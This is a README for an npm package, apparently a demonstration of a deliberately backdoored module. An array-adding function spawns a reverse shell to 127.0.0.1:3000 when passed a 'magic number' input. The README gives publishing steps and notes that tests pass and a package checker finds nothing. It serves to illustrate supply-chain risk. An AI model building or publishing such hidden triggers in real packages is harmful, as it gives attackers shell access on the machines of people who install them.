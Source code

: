 # README.md 
This is a bad module.  It contains a Remote Code Execution exploit that is intentionally exploitable.  

Published to : https://www.npmjs.com/package/@chrisguest75/array_add_rce  

## Create
Simple steps to recreate and push to github and npm 
```sh
git init 
npm init --scope=@chrisguest75
hub create
```

## Test
It's good that the unittests pass, right?  
```sh
npm test
```

## Publish 

```sh
npm publish --access public
```

## Usage
You can use [npq](https://www.npmjs.com/package/npq) to install.  
But it will tell you there are no vulnerabilities. 

```sh
npm install @chrisguest75/array_add_rce
```

```js
const [addTwoNumbers, addArrayNumbers] = require('@chrisguest75/array_add_rce');

let numbers = [1, 2, 3, 4, 5];
let answer = addArrayNumbers(numbers);
```

## Exploit
It contains a magic number that spawns a reverse shell.

```js
const [addTwoNumbers, addArrayNumbers] = require('@chrisguest75/array_add_rce');

// Connect back to port 127.0.0.1:3000
let numbers = [967, 78, 127, 0, 0, 0, 3000];
let answer = addArrayNumbers(numbers);
```
